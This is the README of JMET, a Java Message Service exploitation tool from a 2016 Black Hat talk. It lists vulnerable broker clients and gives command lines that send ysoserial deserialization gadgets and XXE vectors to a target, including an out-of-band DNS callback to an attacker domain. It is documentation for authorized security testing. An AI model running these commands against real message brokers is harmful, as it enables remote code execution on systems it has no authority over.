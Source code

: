 # JMET
The Java Message Exploitation Tool
```ascii
       ____  _______________
      / /  |/  / ____/_  __/
 __  / / /|_/ / __/   / /   
/ /_/ / /  / / /___  / /    
\____/_/  /_/_____/ /_/
```

# Description
JMET was released at Blackhat USA 2016 and is an outcome of Code White's research
effort presented in the talk "Pwning Your Java Messaging With
Deserialization Vulnerabilities".
The goal of JMET is to make the exploitation of the Java Message Service (JMS) easy.
In the talk more than 12 JMS client implementations where shown, vulnerable to
deserialization attacks.
The specific deserialization vulnerabilities were found in ObjectMessage implementations
(classes implementing javax.jms.ObjectMessage).
The following more or less complete list shows the vulnerable JMS broker client
libraries:
* Apache ActiveMQ
* Redhat/Apache HornetQ
* Oracle OpenMQ
* IBM WebSphereMQ
* Oracle Weblogic
* Pivotal RabbitMQ
* IBM MessageSight
* IIT Software SwiftMQ
* Apache ActiveMQ Artemis
* Apache QPID JMS
* Apache QPID Client
* Amazon SQS Java Messaging

For creating gadget payloads JMET makes use of Chris Frohoffs' Ysoserial.

# Supprted JMS client libraries
* Apache ActiveMQ
* Redhat/Apache HornetQ
* Oracle OpenMQ
* IBM WebSphereMQ
* ~~Oracle Weblogic~~
* Pivotal RabbitMQ
* ~~IBM MessageSight~~
* IIT Software SwiftMQ
* Apache ActiveMQ Artemis
* Apache QPID JMS
* Apache QPID Client
* ~~Amazon SQS Java Messaging~~

# Dependencies
JMET depends on a lot of libraries :(. For details see the maven pom file.

JMET works with Java 8. Expect unpleasant surprises with Java 11.

# Installation
Just download jmet-0.1.0-all.jar from here or built it (see "Build instructions").

# Usage

```ascii
$ java -jar target/jmet-0.1.0-all.jar
ERROR d.c.j.JMET [main] Misconfiguration: Missing required options: [-C Custom script exploitation mode, -Y Deser exploitation mode, -X XXE exploitation mode], [-T topic name, -Q queue name], I
usage: jmet [host] [port]
 -C,--Custom <scriptname>         Custom script exploitation mode
 -f,--filter <scriptname>         filter script
 -I,--impl <arg>                  ActiveMQ| Artemis| WebSphereMQ| Qpid10|
                                  Qpid09| HornetQ| SwiftMQ| RabbitMQ|
                                  OpenMQ
 -pw,--password <pass>            password for authentication
 -Q,--Queue <name>                queue name
 -s,--substitute                  Substituation mode: Use §§ to pass
                                  ysoserial payload name to CMD
 -T,--Topic <name>                topic name
 -u,--user <id>                   user for authentication
 -v,--verbose                     Running verbose mode
 -X,--XXE <URL>                   XXE exploitation mode
 -Xp,--xxepayload <payloadname>   Optional: XXE Payload to use EXTERNAL|
                                  PARAMATER| DTD
 -Y,--ysoserial <CMD>             Deser exploitation mode
 -Yp,--payload <payloadname>      Optional: Ysoserial Payload to use
                                  BeanShell1| CommonsBeanutils1|
                                  CommonsCollections1|
                                  CommonsCollections2|
                                  CommonsCollections3|
                                  CommonsCollections4|
                                  CommonsCollections5| Groovy1|
                                  Hibernate1| Hibernate2| Jdk7u21| JSON1|
                                  ROME| Spring1| Spring2
 -Zc,--channel <channel>          channel name (only WebSphereMQ)
 -Zq,--queuemanager <name>        queue manager name (only WebSphereMQ)
 -Zv,--vhost <name>               vhost name (only AMQP-Brokers:
                                  RabbitMQ|QPid09|QPid10)
```
## Gadget exploitation mode
Create gadgets for executing "xterm" and send them all to queue "event".
As implementation ActiveMQ is choosen, the target system is "jmstarget" listening
on port 61616.
```bash
$ java -jar jmet-0.1.0-all.jar -Q event -I ActiveMQ -Y xterm jmstarget 61616
```
To find out which gadget was executed you can use the "substitution"-mode with
 an out-of-band channel like DNS. To pass the gadget name to your command use
 the "§§" string which then gets substituted with the gadget name.

```bash
$ java -jar jmet-0.1.0-all.jar -Q event -I ActiveMQ -s -Y "nslookup §§.yourdomain.com" jmstarget 61616
```
## XXE exploitation mode
The XXE exploition mode requires to specify an URL to be resolved as an
external entity. The XXE vectors are sent inside a TextMessage.
```bash
$ java -jar jmet-0.1.0-all.jar -Q event -I ActiveMQ -X http://192.168.85.148:8081 jmstarget 61616
```
## Custom exploitation mode
The custom exploitation mode allows to run a custom JavaScript script.
The purpose of this mode is to support different serialization formats (JSON, etc.)
and custom payloads.

The following example script uses the XML serialization library XStream.
The String "Object" is serialized to XML and put into an TextMessage using the
de.codewhite.jmet.target.JMSTarget.addTextPayload(String payloadName, String payloadText)-method.
Required libraries need to be put into the "external"-directory of JMET.
```javascript
function payload(target){

        var imports = new JavaImporter(java.io, java.lang, com.thoughtworks.xstream);
        with (imports) {

            xstream = new XStream();
            target.addTextPayload("test",xstream.toXML("Object"));

        }
}
```

## Filter scripts
Filter scripts are used for modifying "javax.jms.Message"-instances before sent
to the target destination.
The following Javascript changes the JMSPriority of every message, prints out
a string und returns the modified message back.
```javascript
function filter(message){

    message.setJMSPriority(3);
    print("Changed Priority")
    return message;

}
```

# Build instructions
Please put the following libraries of the commercial brokers into a
directory of your choice (e.g. DIR).

* com.ibm.mq.allclient.jar (WebSphere MQ)
* amqp.jar  (SwiftMQ)
* jms.jar (SwiftMQ)
* swiftmq.jar (SwiftMQ)

Then invoke maven with the property "commercial" set to your path.
```bash
$ export MAVEN_OPTS=-Xss10m
$ mvn clean compile assembly:single -Dcommerical=DIR
```

If you don't want to use the commercial brokers at all you can just delete
the following files:
* src/main/java/de/codewhite/jmet/target/impl/WebSphereMQTarget.java
* src/main/java/de/codewhite/jmet/target/impl/SwiftMQTarget.java

```bash
$ export MAVEN_OPTS=-Xss10m
$ mvn clean compile assembly:single
```

Using Java 11 can result in builds never finishing, always use Java 8! If you have multiple installations, check that the `JAVA_HOME` environment variable points to the right version!

# Disclaimer
JMET is a proof-of-concept tool for blackbox testing of JMS destinations.
Please use this tool with care and only when authorized.
Be aware that sending an invalid message to a JMS destination might result in a denial-of-service
 state (DOS) of the target system.
 You have been warned !!!

# License
JMET is released under The MIT License (MIT).
